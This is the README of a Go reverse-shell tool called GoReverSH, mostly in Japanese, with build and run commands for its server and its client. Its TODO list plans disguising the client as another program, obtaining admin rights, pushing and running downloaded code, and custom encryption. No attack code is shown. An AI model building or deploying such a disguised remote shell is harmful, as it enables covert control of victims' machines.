 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

# Auther 
en@ble@ny

# 詳細
This is Golang ReverseShell


# 使い方
configにホストとポート指定

## Build
### IOS
make build
### Windows
make build_win

## RUN
### Server
./goreversh_server
### Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## Test
make test


# TODO
- [ ] makefile
変数　ビルドファイル名など

- [ ] ReadMe

- [ ] color

- [ ] clean
    ファイル全削除


- [ ] upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

- [ ] upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


- [ ] ダウンロード
    サイズ、パーミッション

- [ ] 出力ディレクトリ変更コマンド


- [ ] 別プログラムに偽装　バッチファイルなど
管理権限


- [ ] 暗号化
TLS -> AES共通鍵


- [ ] クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


- [ ] ロゴとアスキーアート

# 未実装
### Test
- [ ] TestWaitNotice
- [ ] TestClist
- [ ] CertTset

### 関数
- [ ] get hostname
- [ ] get currentuser


### その他
- [ ] ゴルーチンリークを注意

- [ ] build op make　でmainの変数に代入

- [ ] 操作ログを残す
logfile
出力をsetOutputで書き出し


- [ ] ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


- [ ] 暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


- [ ] TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある